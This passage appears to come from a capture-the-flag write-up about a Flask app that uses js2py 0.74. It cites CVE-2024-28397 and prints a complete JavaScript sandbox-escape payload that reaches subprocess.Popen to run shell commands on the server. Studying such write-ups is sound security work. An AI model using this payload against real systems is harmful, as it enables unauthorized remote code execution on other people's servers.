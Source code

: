 Analizing the app's source code we can found these interesting informations:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

The app is made in Flask and it use the library `js2py` to execute Js code. The version of the package used is `0.74`.

Searching online, there is a CVE called CVE-2024-28397 with a RCE vulnerability for this version.&#x20;

{% embed url="https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py" %}

Taking the payload and adapt it to the victim application.

```javascript
let cmd = "id"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true)

let out = n11.communicate()[0].decode("utf-8")

"" + out
```

